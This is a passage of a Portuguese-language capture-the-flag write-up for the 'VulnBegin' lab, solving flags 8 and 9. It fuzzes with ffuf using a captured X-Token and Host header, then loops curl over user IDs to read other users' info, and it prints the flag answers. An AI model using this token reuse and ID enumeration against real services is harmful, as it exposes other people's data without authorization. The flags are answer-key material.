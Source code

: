 ```bash
ffuf http://mymachine.vulnbegin.co.uk/user \
-H "X-Token: 492E64385D3779BC5F040E2B19D67742" \
-H "Host: server.mymachine.vulnbegin.co.uk"
```
Com esses valores no Header, nós encontramos um novo acesso em /user/:

![Image description](/images/ctfchallenge-vulnbegin-flags/14.jpg)

Acessando a página /user/ nós encontramos um JSON com a seguinte informação:

`{"id":27,"endpoint":"/user/27"}`

E acessando a página /user/27/ nós encontramos outro JSON com a seguinte informação:

`{"id":27,"username":"vulnbegin_website","endpoint":"/user/27/info"}`

E acessando a página /user/27/info/ nós encontramos outro JSON com a flag

{{% details title="Answer:Flag 8" open=false %}}
```
[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]
```
{{% /details %}}

---

## Flag 9

Na última flag tinha uma ID em /user/27/info, o que significa que um usuário tem um identificador no banco de dados como 27. Isso revela que outros usuários podem estar disponível para ler suas informações.
A ideia é fazer um loop pelos usuário até achar algo interessante ou a própria flag.

Pra isso nós vamos usar um loop em bash/shell pra pegar essa informação pelo curl:

```bash
for i in {0..5}; \
do curl http://mymachine.vulnbegin.co.uk/user/$i/info \
-H "X-Token: 492E64385D3779BC5F040E2B19D67742" \
-H "Host: server.mymachine.vulnbegin.co.uk"; \
done
```

Onde:
- `for i in {0..5};` faz um loop pelas próximas 6 vezes (começa em zero, termina em 5)
- `do` define que ação fazer (próximo comando do loop)
- `curl http://mymachine.vulnbegin.co.uk/user/$i/info -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Host: server.mymachine.vulnbegin.co.uk";` O comando que vimos da última vez, mas agora com $i no lugar do ID do usuário, esse número vai mudar de acordo com o valor do loop (de 0 a 5)
- `done` identificador de fim do loop

Depois de fazer o loop 6 vezes, nós temos a flag na ID 5:

![Image description](/images/ctfchallenge-vulnbegin-flags/15.jpg)

{{% details title="Answer:Flag 9" open=false %}}
```
[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]
```
{{% /details %}}

---
